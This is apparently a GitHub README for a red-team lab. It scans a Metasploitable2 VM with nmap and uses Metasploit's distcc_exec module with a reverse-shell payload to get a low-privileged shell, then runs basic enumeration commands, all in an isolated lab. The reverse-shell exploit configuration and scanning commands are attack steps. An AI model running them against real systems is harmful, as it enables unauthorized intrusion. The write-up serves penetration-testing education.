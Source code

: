# Red Team Lab: Metasploitable2 - distccd Exploit

## Objective

The purpose of this lab is to demonstrate a controlled, ethical exploitation of a vulnerable service (distccd) on the Metasploitable2 virtual machine. This exercise highlights reconnaissance, vulnerability identification, exploitation, and initial post-exploitation steps.

## Environment Setup

* **Attacker VM:** Kali Linux 192.168.56.101
![Kali](screenshots/pictwo.png)
* **Target VM:** Metasploitable2 192.168.56.102
![metaspoitable](screenshots/pic1.png)
* **Tools Used:** Nmap for reconnaissance, Metasploit Framework for exploitation

## Step 1: Reconnaissance

Performed a full TCP port scan to discover open services on the target VM.

```bash
nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102
```
![nmap scan](screenshots/picthree.png)

**Observations:**

* Open port 3632 identified running the **distccd** service.
* Other open ports recorded for future analysis.

**Breakdown:**

* **Nmap:** Network mapping tool that scans for open ports and services.
* **-p-:** Scans all 65535 TCP ports.
* **-T4:** Aggressive timing for faster scanning.
* **-sS:** SYN scan to identify open ports stealthily.
* **--open:** Show only open ports.

**Confirm conection**

```bash
nmap -sV -p 3632 192.168.56.102 
```

```bash
nc -vz 192.168.56.102 3632
```
![nmap scan](screenshots/picfour.png)

## Step 2: Vulnerability Identification

Searched for a Metasploit module targeting the distccd service.

```bash
msf6 > search distcc
```
![mfsconsole](screenshots/picfive.png)

**Result:**

```
exploit/unix/misc/distcc_exec - DistCC Daemon Command Execution
```

* Rank: Excellent (high confidence in exploit reliability)
* Description: Remote command execution on the distccd service.

**Explanation:**

* **Metasploit:** Framework for developing and executing exploits.
* **Module rank:** Indicates reliability and stability of the exploit.
* **RCE (Remote Code Execution):** Ability to execute commands on the target machine remotely.

## Step 3: Module Configuration

Loaded the exploit module and set required parameters.

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 > set RHOSTS 192.168.56.102
msf6 > set RPORT 3632
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 4445
msf6 > set PAYLOAD cmd/unix/reverse
msf6 > show options
```
![config](screenshots/picsix.png)
![config](screenshots/picseven.png)

**Explanation of options:**

* **RHOSTS:** IP address of the target machine.
* **RPORT:** Port on the target running the vulnerable service.
* **LHOST:** Local attacker IP where the reverse shell will connect.
* **LPORT:** Local listening port for the reverse shell.
* **Payload:** Defines the action after successful exploitation (here, a reverse shell).

## Step 4: Exploitation

Executed the exploit to gain a command shell on the target.

```bash
msf6 > exploit
```

**Outcome:**

* Reverse shell established from Metasploitable2 to Kali Linux.
* Command shell session opened:

  * User: daemon (low-privileged)
  * UID/GID: 1 (daemon)

**Explanation:**

* **Reverse shell:** The target connects back to the attacker, bypassing firewall restrictions.
* **Session:** Interactive connection to run commands on the target.

## Step 5: Post-Exploitation

Verified system access and collected initial information.

Commands executed:

```bash
whoami
id
uname -a
pwd
ls -la
```
![exploit](screenshots/piceight.png)

**Observations:**

* User context: daemon (non-root)
* Kernel and OS: Linux 2.6.24-16-server
* Current working directory: /tmp
* Directory contents listed, including temporary and system files.

**Explanation:**

* **whoami/id:** Confirm user privileges.
* **uname -a:** Identify system kernel and architecture.
* **pwd/ls -la:** Explore current directories and file permissions.



## Conclusion

* Successfully exploited the distccd service on Metasploitable2.
* Gained low-privileged shell access and explored the system.
* Demonstrated full workflow: reconnaissance, vulnerability identification, exploitation, post-exploitation.
* This lab highlights ethical hacking practices in a controlled environment.

---

**Note:** All actions were performed in a controlled, isolated lab environment. No live systems were harmed.

